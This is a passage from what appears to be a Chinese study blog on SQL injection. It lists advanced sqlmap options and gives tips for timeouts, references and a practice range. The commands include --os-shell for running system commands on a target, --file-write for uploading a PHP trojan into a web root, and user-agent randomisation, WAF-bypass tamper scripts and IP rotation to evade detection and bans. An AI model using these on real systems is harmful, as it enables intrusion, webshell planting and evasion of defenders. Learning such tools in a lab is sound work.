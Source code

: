 
进阶命令：
```
--os-shell#执行系统命令,会让你选择目标网站服务器语言  sqlmap.py -u "" --os-shell 
--batch #默认选择  sqlmap.py -u "" --os-shell --batch
--file-write="yjh_muma.php" --file-dest="C:/phpStudy/WWW/502g58de/xiaoma.php" #写文件到目标位置(木马)
--proxy #使用代理去扫描目标 sqlmap.py -u "" --proxy="http://127.0.0.1:8080/"（代理软件占用的端口在8087)
--random-agent #使用随机的User-Agent头 绕过网站检测(默认user-agent会有sqlmap字段)
--cookie #使用用户身份 sqlmap -u "" --cookie="cookie内容"
--level #提高扫描强度(默认不大)，扫描出漏洞可能性变大，但扫描时间会变长
--risk #风险等级的设定 --level 3 --risk 2(经验值)
--tamper：使用绕WAF的脚本 --tamper="tamper/between.py,tamper/randomcase.py" 
```
![20220414215322](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs20220414215322.png)
![2](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs2.png)
---
# 总结
学习了sql注入的原理和sqlmap的使用方法。

# 问题
## 1.sqlmap 连接超时
```
看注入的目标地址是不是 https 协议，如果是可以使用sqlmap直接加上–force-ssl参数，告诉sqlmap这是https服务。或者可以在Host头后面加上:443（默认不是443）。

ip 被封，需要开启代理，时刻切换ip，避免封ip

梯子：智能模式访问国内网站仍用正常ip，全局梯子则是所有网站都会改变ip
```
---
# 参考资料
1.[sqlmap中文文档](https://sqlmap.campfire.ga/)

2.[靶场跑不了爆破临时解决办法](https://bbs.zkaq.cn/t/6526.html)

3.[代理和VPN有什么区别](https://www.dailiproxy.com/proxy-vpn/)
